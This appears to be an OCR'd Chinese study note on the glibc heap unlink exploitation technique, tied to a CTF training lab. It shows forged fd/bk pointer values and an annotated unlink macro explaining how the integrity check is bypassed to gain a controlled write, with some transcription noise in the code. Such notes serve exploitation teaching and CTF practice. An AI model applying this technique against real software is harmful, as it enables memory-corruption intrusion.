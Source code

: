 
[slides](https://github.com/bash-c/slides/blob/master/pwn_heap/malloc-150821074656-lva1-app6891.pdf)

1、伪造如下：
```c
chunk=0x0602280;   // (P 是将要合并到的堆地址，P 存在于 chunk 中，相当于*chunk=P)
P_fd=chunk-0×18=0x602268 // 绕过 FD->bk == P
P_bk=chunk-0x10=0x602270 // 绕过 BK->fd == P
```

2、绕过技巧：
```c
define unlink (P, BK, FD){
  FD=P->fd; // FD=0x602268
  BK=P->bk；// BK=0x602270
  if (builtin_expect (FD->bk!=P||BK->fd!=P,0)) 
                 // \FD->bk =*(0x602268+0×18)|*(0x602280)=P 
                 // \BK->fd =*(0X602270+0×10) =*0X602280)=P ,绕过！
  malloc printerr (check action,"corrupted double-linked list", P, AV);
  FD->bk=BK; // \*(0X602268+0×18)|*(0×602280)=0×602270
  BK->fd=FD; // \*(0x602270+0×10)|*(0x602280)=0X602268 -- 这里是最终写入效果
}
// 最终效果就是往 chunk 里面写入了 chunk-0x18 的值！
```

# Example
* hitcon training-lab11-2

